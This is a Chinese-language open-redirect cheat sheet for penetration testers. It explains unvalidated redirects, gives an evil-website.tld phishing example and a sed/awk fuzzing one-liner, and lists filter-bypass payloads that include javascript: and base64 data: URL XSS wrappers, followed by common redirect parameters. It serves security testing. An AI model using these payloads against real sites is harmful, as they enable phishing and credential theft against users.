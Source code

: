 # 任意URL跳转

> 当web应用程序接受不受信任的输入时，可能会导致web应用程序将请求重定向到不受信任的输入中包含的URL，这时可以进行未验证的重定向和转发。通过修改恶意站点的不可信URL输入，攻击者可以成功地发起钓鱼欺诈并窃取用户凭证。因为修改链接中的服务器名与原始站点相同，所以钓鱼链接攻击可能会有更可信的外观。未经验证的重定向和转发攻击还可用于恶意地创建一个URL，该URL将通过应用程序的访问控制检查，然后将攻击者转发到他们通常无法访问的特权函数。
>

## Summary

- [Exploitation](#exploitation)
- [HTTP Redirection Status Code - 3xx](#http-redirection-status-code---3xx)
- [Fuzzing](#fuzzing)
- [Filter Bypass](#filter-bypass)
- [Common injection parameters](#common-injection-parameters)
- [References](#references)

## Exploitation

假设有一个 `well known` 的网站 - https://famous-website.tld/. 让我们假设有一个这样的链接：

```powershell
https://famous-website.tld/signup?redirectUrl=https://famous-website.tld/account
```
注册后你会被重定向到你的账户，此重定向由URL中的 `redirectUrl` 参数指定。

如果我们把 `famous-website.tld/account` 改为`evil-website.tld`会发生什么呢?

```powerhshell
https://famous-website.tld/signup?redirectUrl=https://evil-website.tld/account
```

通过访问这个URL，如果在我们注册后被重定向到 `evil-website.tld`，我们就有了一个任意跳转的重定向漏洞。这可能被攻击者用来显示一个钓鱼页面，要求您输入您的凭证。


## HTTP Redirection Status Code - 3xx

- [300 Multiple Choices](https://httpstatuses.com/300)
- [301 Moved Permanently](https://httpstatuses.com/301)
- [302 Found](https://httpstatuses.com/302)
- [303 See Other](https://httpstatuses.com/303)
- [304 Not Modified](https://httpstatuses.com/304)
- [305 Use Proxy](https://httpstatuses.com/305)
- [307 Temporary Redirect](https://httpstatuses.com/307)
- [308 Permanent Redirect](https://httpstatuses.com/308)

## Fuzzing

在您的测试用例中，用一个特定的白名单从 *Open-Redirect-payloads.txt*替换为 www.whitelisteddomain.tld 。

要做到这一点，只需将带有值www.test.com的WHITELISTEDDOMAIN修改为您的测试用例URL。

```powershell
WHITELISTEDDOMAIN="www.test.com" && sed 's/www.whitelisteddomain.tld/'"$WHITELISTEDDOMAIN"'/' Open-Redirect-payloads.txt > Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{print "https://"$0"."$NF}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt
```

## Filter Bypass

使用白名单或关键字

```powershell
www.whitelisted.com.evil.com redirect to evil.com
```

使用 CRLF 绕过 “javascript” 黑名单关键字

```powershell
java%0d%0ascript%0d%0a:alert(0)
```

使用 "//" 绕过 "http" 黑名单关键字

```powershell
//google.com
```

使用 "https:" 绕过 "//" 黑名单关键字

```powershell
https:google.com
```

使用 "\/\/" 绕过 "//" 黑名单关键字 (浏览器会将 \/\/ 识别为 //)

```powershell
\/\/google.com/
/\/google.com/
```

使用 "%E3%80%82" 绕过 "." 黑名单字符

```powershell
/?redir=google。com
//google%E3%80%82com
```

使用空子节 "%00" 绕过黑名单过滤器

```powershell
//google%00.com
```

使用参数污染

```powershell
?next=whitelisted.com&next=google.com
```

使用 "@" 字符，浏览器会重定向到“@”之后的任何内容

```powershell
http://www.theirsite.com@yoursite.com/
```

创建文件夹作为它们的域

```powershell
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```

使用XSS在任意URL -如果它是在一个JS变量

```powershell
";alert(0);//
```

XSS from data:// wrapper

```powershell
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
```

XSS from javascript:// wrapper

```powershell
http://www.example.com/redirect.php?url=javascript:prompt(1)
```

## Common injection parameters

```powershell
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
```

## References

* filedescriptor
* [You do not need to run 80 reconnaissance tools to get access to user accounts - @stefanocoding](https://gist.github.com/stefanocoding/8cdc8acf5253725992432dedb1c9c781)
* [OWASP - Unvalidated Redirects and Forwards Cheat Sheet](https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet)
* [Cujanovic - Open-Redirect-Payloads](https://github.com/cujanovic/Open-Redirect-Payloads)
* [Pentester Land - Open Redirect Cheat Sheet](https://pentester.land/cheatsheets/2018/11/02/open-redirect-cheatsheet.html)
* [Open Redirect Vulnerability - AUGUST 15, 2018 - s0cket7](https://s0cket7.com/open-redirect-vulnerability/)